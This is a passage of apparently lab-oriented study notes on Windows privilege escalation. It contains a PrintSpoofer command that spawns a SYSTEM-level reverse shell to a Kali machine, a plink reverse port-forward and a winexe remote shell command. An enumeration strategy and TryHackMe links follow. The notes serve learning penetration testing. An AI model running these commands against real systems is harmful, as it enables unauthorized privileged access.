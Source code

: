 - Now, in the "local service" reverse shell you triggered, run the PrintSpoofer exploit to trigger a second reverse shell running with SYSTEM privileges (update the IP address with your Kali IP accordingly):

`C:\PrivEsc\PrintSpoofer.exe -c "C:\PrivEsc\reverse.exe" -i`


___

## Port Forwarding


- Enable firewall on Windows:

```cmd
C:\> netsh advfirewall set allprofiles state on
```

- `plink.exe <user>@<kali> -R <kali-port>:127.0.0.1:<target-port>` (forward a port on Kali to an internal port on Windows?)

- On Kali:

```bash
$ winexe-U '<user>%<pass>' //127.0.0.1 cmd.exe
```

___

## Strategy

1. Check user and group permissions
2. Run enumeration tools like **winPEAS** (fast, searchfast and cmd options) or **Seabelt** as well as other scripts such as `PowerUp` or `SharUp`
    + Look at service/registry exploits
    + Enumerate admin processes and their versions
    + Check Internal ports 
3. Looks at some cheat sheets like [PayloadAllTheThings - Windows - Privilege Escalation](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#windows---privilege-escalation)
4. Start to think about Kernel exploits

___

## Resources

- [THM - Windows PrivEsc](https://tryhackme.com/room/windows10privesc)
- [THM - Windows PrivEsc Arena](https://tryhackme.com/room/windowsprivescarena)
- [PayloadAllTheThings - Windows - Privilege Escalation](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#windows---privilege-escalation)
- [THM - Post-Exploitation Basics](https://tryhackme.com/room/postexploit)
- [THM - Attacking Kerberos](https://tryhackme.com/room/attackingkerberos)
- [THM - ICE](https://tryhackme.com/room/ice)